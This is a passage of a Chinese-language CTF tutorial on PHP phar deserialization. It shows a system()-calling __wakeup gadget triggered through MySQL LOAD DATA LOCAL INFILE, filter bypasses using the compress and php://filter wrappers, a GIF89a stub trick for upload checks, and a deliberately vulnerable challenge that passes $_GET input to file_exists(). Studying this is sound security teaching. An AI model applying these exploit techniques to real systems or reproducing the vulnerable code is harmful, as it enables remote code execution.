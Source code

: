 ```
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>
```

### 9.绕过方式

当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过

```
compress.bzip:    //phar:///test.phar/test.txt
compress.bzip2:   //phar:///test.phar/test.txt
compress.zlib:    //phar:///home/sx/test.phar/test.txt
php:              //filter/resource=phar:///test.phar/test.txt
```

当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。

```
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

GIF格式验证可以通过在文件头部添加GIF89a绕过

```
1、$phar->setStub(“GIF89a”.“<?php __HALT_COMPILER(); ?>”); //设置stub
2、生成一个phar.phar，修改后缀名为phar.gif
```

## 例子

题目

```php
<?php 
class User {
     var $name;
     function __wakeup(){
         @eval($this->name);
     }
     // function __destruct(){
     //     echo $this->name;
     // }
 }
 $filename = $_GET['filename'];
 file_exists($filename);
```
